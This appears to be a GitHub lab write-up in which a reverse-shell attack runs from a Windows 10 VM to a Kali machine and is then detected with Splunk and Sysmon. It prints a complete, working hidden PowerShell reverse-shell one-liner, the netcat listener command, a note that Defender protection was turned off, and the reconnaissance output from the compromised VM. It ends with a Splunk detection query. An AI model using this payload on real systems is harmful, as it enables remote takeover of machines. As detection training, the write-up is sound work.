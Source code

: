 # 🎯 C2 Payload: Reverse Shell Simulation

## Objective
Simulate a basic reverse shell attack from the **Victim (Windows 10)** machine to the **Attacker (Kali)**, and monitor the connection using **Splunk + Sysmon** on the **Defender (Ubuntu)**.

---

## 🧪 Lab Details

| Role     | OS           | IP Address     |
|----------|--------------|----------------|
| Attacker | Kali Linux   | `192.168.0.11` |
| Victim   | Windows 10   | `192.168.0.12` |
| Defender | Ubuntu (Splunk) | `192.168.0.10` |

---

## 🛠️ Payload Used (PowerShell Reverse Shell)

Executed from the **Victim** machine (PowerShell):

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```
Note: Defender blocked it initially. Real-time protection was temporarily disabled in Windows Security for testing.

## 🖥️ Kali Listener Setup

On the Attacker machine (Kali):
nc -lvnp 4444

Successfully received incoming shell from Victim:
connect to [192.168.0.11] from (192.168.0.12) 49280
<details>
<summary>🖼️ Session Connection</summary>

![Screenshot 2025-04-25 124346](https://github.com/user-attachments/assets/c15da569-4be4-4ddd-9196-e2b718d1eba4)

</details>



<details>
  <summary>📄 Session Output (Click to Expand)</summary>

**Command:** `whoami`  
**Output:**
victim-win\vboxuser

---

**Command:** `hostname`  
**Output:**
Victim-Win

---

**Command:** `ipconfig`  
**Output:**
Ethernet adapter Ethernet: IPv4 Address. . . . . . . . . . . : 10.0.2.15 Default Gateway . . . . . . . . . : 192.168.0.1

Ethernet adapter Ethernet 2: IPv4 Address. . . . . . . . . . . : 192.168.0.12 Default Gateway . . . . . . . . . : 192.168.0.1

---

**Command:** `systeminfo`  
**Output:**
Host Name:                 VICTIM-WIN
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-20000-00001-AA947
Original Install Date:     4/19/2025, 2:30:44 PM
System Boot Time:          4/25/2025, 7:25:04 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 151 Stepping 2 GenuineIntel ~3187 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 1,404 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 1,930 MB
Virtual Memory: In Use:    3,574 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\VICTIM-WIN
......

---

**Command:** `dir`  
**Output:**
Mode                 LastWriteTime         Length Name                                                                 
====                 =============         ====== ====                                                                
d-r---         4/19/2025   2:30 PM                3D Objects                                                           
d-r---         4/19/2025   2:30 PM                Contacts                                                             
d-r---         4/22/2025   4:01 PM                Desktop                                                              
d-r---         4/19/2025   2:30 PM                Documents                                                            
d-r---         4/19/2025   7:56 PM                Downloads                                                            
d-r---         4/19/2025   2:30 PM                Favorites                                                            
d-r---         4/19/2025   2:30 PM                Links                                                                
d-r---         4/19/2025   2:30 PM                Music                                                                
d-r---         4/19/2025   2:32 PM                OneDrive                                                             
d-r---         4/19/2025   2:32 PM                Pictures                                                             
d-r---         4/19/2025   2:30 PM                Saved Games                                                          
d-r---         4/19/2025   2:32 PM                Searches                                                             
d-r---         4/19/2025   2:30 PM                Videos           

---

**Command:** `cd Desktop`  
**Command:** `echo You Have been Hacked > hacked.txt`  
<details>
<summary>🖼️ Hacked file</summary>

![Screenshot 2025-04-25 143943](https://github.com/user-attachments/assets/d1c6573f-c40f-4cc7-a46d-9d2b085865c5)

</details>
**Command:** `dir`  
**Output:**
    Directory: C:\Users\vboxuser\Desktop


Mode                 LastWriteTime         Length Name                                                                 
====                ==============         ====== ====                                                                
d-----         4/22/2025   4:05 PM                sysmon-config-master                                                 
-a----         4/25/2025  12:51 PM              0 hacked.txt                                                           
-a----         4/19/2025   4:34 PM           2348 Microsoft Edge.lnk                                                   
-a----         4/19/2025   7:37 PM        1118208 sysmon_logs.evtx      
</details>

## 🔍 Detection via Splunk (EventCode 3)
Logged and verified the following:
```
index=sysmon EventCode=3 DestinationPort=4444
| table _time, Image, User, DestinationIp, DestinationPort
```
✅ Observed PowerShell creating a TCP connection to Kali on port 4444.
<details>
<summary>🖼️ TCP connection Event</summary>

![Screenshot 2025-04-25 140538](https://github.com/user-attachments/assets/28aec82d-ae51-4fc1-9b1f-3031f59ddddb)

</details>



